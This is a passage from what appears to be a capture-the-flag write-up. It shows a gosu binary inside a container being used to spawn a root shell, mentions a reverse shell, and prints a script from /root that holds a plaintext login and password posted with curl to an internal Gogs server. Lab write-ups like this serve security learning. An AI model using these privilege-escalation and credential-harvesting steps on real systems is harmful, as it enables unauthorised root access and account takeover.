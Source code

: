 

Just running it, it clearly looks like a binary to run things as other
users:



    3713ea5e4353:/$ gosu
    Usage: gosu user-spec command [args]
       ie: gosu tianon bash
           gosu nobody:root bash -c 'whoami && id'
           gosu 1000:1 id

    gosu version: 1.10 (go1.7.1 on linux/amd64; gc)
         license: GPL-3 (full text at https://github.com/tianon/gosu)



I'll give one of their examples a spin:



    3713ea5e4353:/$ gosu nobody:root bash -c 'whoami && id'
    nobody
    uid=65534(nobody) gid=0(root)



I can run that to get a root shell:



    3713ea5e4353:/$ gosu root:root bash
    3713ea5e4353:/# id
    uid=0(root) gid=0(root)



Note - that won't work unless I have a full tty. I could initiate
another reverser shell without a tty.

## Privesc: kaneki_pub --\> root

### Enumeration

Now that I'm root on gogs, I have access to files that will help me get
to root on kaneki-pc. In `/root/`, I see two files:



    3713ea5e4353:~# ls
    aogiri-app.7z  session.sh



`session.sh` gives additional login credentials for kaneki to gogs:



    3713ea5e4353:~# cat session.sh 
    #!/bin/bash
    while true
    do
      sleep 300
      rm -rf /data/gogs/data/sessions
      sleep 2
      curl -d 'user_name=kaneki&password=12345ILoveTouka!!!' http://172.18.0.2:3000/user/login
    done
